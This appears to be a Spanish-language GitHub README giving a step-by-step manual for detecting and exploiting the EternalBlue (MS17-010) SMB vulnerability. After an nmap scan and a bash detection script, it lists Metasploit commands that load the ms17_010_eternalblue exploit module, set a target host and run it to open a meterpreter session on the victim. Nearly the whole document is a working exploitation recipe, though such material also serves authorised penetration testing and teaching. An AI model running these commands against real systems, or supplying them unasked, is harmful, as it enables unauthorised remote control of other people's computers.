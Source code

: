 # Manual-Eternalblue
Detección y explotación de la vulnerabilidad EternalBlue

La vulnerabilidad en la implementación de SMB permite a los atacantes acceder y controlar un equipo remotamente.


MANUAL:

Escaneo agresivo con nmap
Sintaxis:

```cmd
root@kali:# nmap -A "host"
```
Script para detectar si un host tiene la vulnerabilidad de eternalblue con nmap en bash:

```cmd
#!/bin/bash


echo "ingrese direccion ip del objetivo"
read ip
if nmap -p445 --script smb-vuln-ms17-010.nse $ip | grep "VULNERABLE"; then
  echo "Host es vulnerable a EternalBlue (MS17-010)"
else
  echo "Host no es vulnerable a EternalBlue (MS17-010)"
fi
```

iniciar Metasploit Framework

```cmd
root@kali:# service postgresql start
```

```cmd
root@kali:# msfconsole
```

Usar un modulo auxiliar de metasploit para detectar si un host cuenta con la vulnerabilidad de eternalblue

```cmd
msf6 > use auxiliary/scanner/smb/smb_ms17_010
```
configurar hosts

```cmd
msf6 auxiliary(scanner/smb/smb_ms17_010) > set RHOSTS "host"
```
ejecutar

```cmd
msf6 auxiliary(scanner/smb/smb_ms17_010) > run
```
Ejecutar un modulo de tipo exploit para generar una consola de meterpreter al host vulnerable

```cmd
msf6 > use exploit/windows/smb/ms17_010_eternalblue
```
configurar host

```cmd
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS "host"
```

Ejecutar

```cmd
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit
```